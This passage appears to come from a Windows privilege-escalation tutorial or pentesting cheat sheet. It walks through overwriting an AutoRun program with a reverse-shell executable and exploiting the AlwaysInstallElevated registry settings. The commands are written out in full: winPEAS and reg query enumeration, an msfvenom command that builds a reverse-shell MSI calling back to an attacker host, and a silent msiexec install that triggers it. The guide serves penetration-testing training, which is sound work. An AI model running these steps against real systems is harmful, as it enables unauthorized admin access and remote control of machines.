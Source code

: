     ```
    copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
    ```
4.  Copy our reverse shell executable to overwrite the AutoRun executable:

    ```
    copy /Y C:\Users\Public\reverse.exe "C:\Program Files\Autorun Program\program.exe"
    ```
5. Start a listener on your host, and then restart the target to trigger the exploit.&#x20;

### AlwaysInstallElevated

MSI files are program installation package files. These files are installed with the permissions of the user who is attempting to install them. These installers can be launched with elevated (i.e. admin) capabilities in Windows. If this is the case, a malicious MSI file containing a reverse shell can be created.

The catch is that two Registry settings must be enabled for this to work. The “AlwaysInstallElevated” value must be set to 1 for both the local machine and the current user:

```
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```

If either of these is missing or disabled, the exploit will **not** work.

#### AlwaysInstallElevated Privilege Escalation Methodology

1.  Use winPEAS to see if both registry values are set:

    ```
    .\winPEASany.exe quiet windowscreds
    ```
2.  Alternatively, verify the values manually:

    ```
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    ```
3.  Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:

    ```
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f msi -o reverse.msi
    ```
4.  Copy the reverse.msi across to the Windows target, start a listener in your host, and run the installer to trigger the exploit:

    ```
    msiexec /quiet /qn /i C:\Users\Public\reverse.msi
    ```

## Passwords, Hashes, or Credentials

Sometimes administrators re-use passwords or leave them on computers in easily accessible places. Windows is particularly vulnerable to this since various features of the operating system store credentials insecurely.
